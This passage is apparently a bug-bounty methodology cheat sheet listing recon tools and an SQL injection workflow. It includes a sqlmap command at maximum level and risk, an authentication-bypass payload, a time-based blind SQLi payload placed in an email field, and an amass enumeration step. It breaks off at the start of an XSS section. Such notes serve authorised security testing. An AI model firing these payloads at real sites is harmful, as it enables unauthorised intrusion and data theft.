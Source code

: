 Tool: https://github.com/BitTheByte/Eagle

Basic Usage:

```
python3 main.py -f domains.txt
```

Advanced Usage:

```
python3 main.py -f domains.txt -w 10 --db output.db.json
```

To check API keys if they vulnerable or not, use a tool such as gmapsapiscanner, it is usefull to save the time by automating the process and also if it gets any Vulnerable API, it will generate its POC itself.

Tool: https://github.com/ozguralp/gmapsapiscanner

Usage:

```
python3 maps_api_scanner_python3.py
```

#### SQL Injection Methodologies

\*try login with admin admin and send login request to burp

\*do an active scan

if show SQL injection with parameter

\#POC

copy request in txt

and on sqlmap

```
sqlmap -r sql.txt --force-ssl --level 5 --risk 3 --dbs -p parameter
```

and you have a valid SQL INJ 😎😎

**SQL Injection Auth Bypass:**

```
' || 1=1 # /2
```

#### Blind SQL Injection payload:

```
email=test@gmail.com'XOR(if(now()=sysdate(),sleep(5*1),0))XOR'Z
```

#### Reflected XSS On private program

1-

```
amass enum -passive -norecursive -noalts -d domain .com -o domain.txt
```

